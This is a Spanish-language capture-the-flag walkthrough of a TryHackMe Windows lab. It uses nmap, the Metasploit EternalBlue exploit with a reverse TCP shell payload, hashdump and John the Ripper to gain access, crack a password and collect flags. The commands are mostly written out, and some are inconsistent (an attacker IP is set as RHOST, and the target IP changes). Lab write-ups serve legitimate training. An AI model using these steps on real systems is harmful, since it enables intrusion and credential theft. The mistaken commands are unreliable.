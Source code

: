 
Como ya tenemos la IP no hace falta realizar un reconocimiento de HOST.

- IP victima `10.10.59.5`

## Comprobar si tengo conexión
```
ping -c 1 10.10.59.5
```
![](img/Pasted%20image%2020240817222409.png)

# Reconocimiento

## NMAP
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.59.5 -oN basic_scan
```
![](img/Pasted%20image%2020240817222632.png)

# ENUMERACIÓN

## NMAP
```
nmap -p135,139,445,3389,49152,49143,49154,49158,49160 -sVC --min-rate 5000 -n -Pn -vvv 10.10.59.5 -oN ports_scan
```
![](img/Pasted%20image%2020240817223213.png)
![](img/Pasted%20image%2020240817223253.png)
![](img/Pasted%20image%2020240817223313.png)
Pruebo si el puerto 445, es vulnerable al **ETERNAL BLUE**

### PUERTO 445 - SMB
- Pruebo si es vulnerable a la vulnerabilidad de **eternal blue**. Los pasos que hay que seguir son:
```
nmap --script "vuln and safe" -n -Pn -p445 10.10.59.5 -oN vulnScan
```
![](img/Pasted%20image%2020240817231249.png)
Es vulnerable.

#### 1- INICIAR METASPLOIT
```
msfconsole -q
```
![](img/Pasted%20image%2020240817223825.png)

####  2-BUSCAR EXPLOIT
```
search eternalblue
```
![](img/Pasted%20image%2020240817223922.png)

#### 3- COMPRUEBO SI ES VULNERABLE
```
use 24
```
![](img/Pasted%20image%2020240817232512.png)
- Veo las opciones que tiene
```
show options
```
![](img/Pasted%20image%2020240817232812.png)

- Configuro RHOST que es la IP de la máquina victima. Y vuelvo a revisar las opciones
```
set RHOST 10.10.59.5
```
```
show options
```
![](img/Pasted%20image%2020240817232928.png)

- Ejecuto para ver si es vulnerable a **ETERNALBLUE**
```
run
```
![](img/Pasted%20image%2020240817233053.png)
Es vulnerable

# EXPLOTACIÓN

#### 4- USO EL EXPLOIT
- Voy a usar el exploit con el ID 24
```
use 0
```
![](img/Pasted%20image%2020240818113056.png)
#### 5- VER/CAMBAIR OPCIONES
- Veo las opciones que tiene
```
show options
```
![](img/Pasted%20image%2020240818113125.png)

- Solo tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.231.27
```
```
set RHOST 10.2.37.7
```
```
show options
```
![](img/Pasted%20image%2020240818113802.png)

#### 6- Ejecutar el exploit
```
run
```
![](img/Pasted%20image%2020240817233657.png)
Ahora hemos recibido un shell, pero no podemos hacer mucho con él. Por lo tanto, ahora ponemos en segundo plano la sesión (1.ª) y actualizamos a un shell de meterpreter

Para cambiar la carga útil, podemos cambiar el PAYLOAD ,utilice el comando:
```
set payload windows/x64/shell/reverse_tcp
```


# POST-EXPLOTACIÓN

Para poner el `meterpreter` en segundo plano usamos
```
CTRL + Z
```
![](img/Pasted%20image%2020240818114943.png)

Si quiero ver la sesión del `meterpreter`
```
sessions -l
```
![](img/Pasted%20image%2020240818115015.png)

Para volver al `meterpreter`
```
sessions 1
```
![](img/Pasted%20image%2020240818115233.png)

#### CRACKING
Estando con el `meterpreter` ya puedo ejecutar comandos.

##### HASHES
Podemos volcar las contraseña con el comando
```
hashdump
```
![](img/Pasted%20image%2020240818121100.png)

Copiamos el hash equivalente a Jon y lo guardamos en un archivo en el escritorio.
```
hashJon
```
![](img/Pasted%20image%2020240818121247.png)
![](img/Pasted%20image%2020240818121257.png)

A continuación, utilizamos la herramienta “ **John the Ripper** ” para descifrar el hash.

##### JOHN THE RIPPER
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashJon 
```
![](img/Pasted%20image%2020240818121558.png)

##### ENCONTRAR BANDERAS
Me paso del meterpreter a una shell de windows
```
shell
```
![](img/Pasted%20image%2020240818121724.png)

###### flag1
![](img/Pasted%20image%2020240818121940.png)

###### flag2
![](img/Pasted%20image%2020240818122056.png)

###### flag3
![](img/Pasted%20image%2020240818122229.png)



